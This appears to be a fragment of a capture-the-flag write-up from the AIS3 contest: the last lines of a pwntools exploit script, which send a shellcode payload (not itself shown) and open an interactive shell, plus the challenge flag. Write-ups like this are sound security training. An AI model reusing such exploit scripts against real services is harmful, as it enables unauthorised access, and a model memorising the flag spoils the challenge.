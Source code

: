 ```python=
r.sendline(b'a')

r.recvuntil(b'yours?')
r.sendline(payload)

r.interactive()
```

- `AIS3{Y0U_5peAk_$helL_codE_7hat_iS_CARzy!!!}`
